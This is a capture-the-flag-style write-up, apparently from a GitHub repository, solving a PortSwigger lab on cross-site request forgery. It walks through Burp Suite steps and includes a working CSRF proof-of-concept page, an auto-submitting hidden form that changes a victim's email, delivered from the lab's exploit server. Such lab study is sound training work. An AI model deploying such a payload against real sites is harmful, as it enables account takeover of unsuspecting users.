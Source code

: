 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7137469b-9962-4d5d-92d1-0b36bad0f9d4)

### Solution

Open Burp's browser and log in to your account using wener:peter.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9fff4e17-639f-41fc-ac62-f4470e215634)

now we will update the email using update email option

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/1aacfedb-3aae-4a79-b5e6-2db17fe57d66)

updated the email

now we will find the update email request in web history in burp

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/45e5ca9c-12ee-4ac4-b931-25b70ffbd24f)

now send it to the repeater and right-click on the request and select Engagement tools / Generate CSRF PoC.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a61046bf-6b47-4197-8fa5-80057e7dcd6c)

i changed the email from abcd to rahul

the payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a7b00600391455a8192213c00e70044.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="rahul&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

now go to the exploit server and paste the payload in  the body section.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3c079701-d742-4b2f-9a13-59abd8f47c82)

now store and view the exploit

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/42738f9c-a1ef-4168-8384-7f2d66719d45)

after clicking the view we can see that it works.

now we deliver the payload

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b099943a-bd0e-43e6-8a3f-9eeed945f74e)

lab solved succesfully
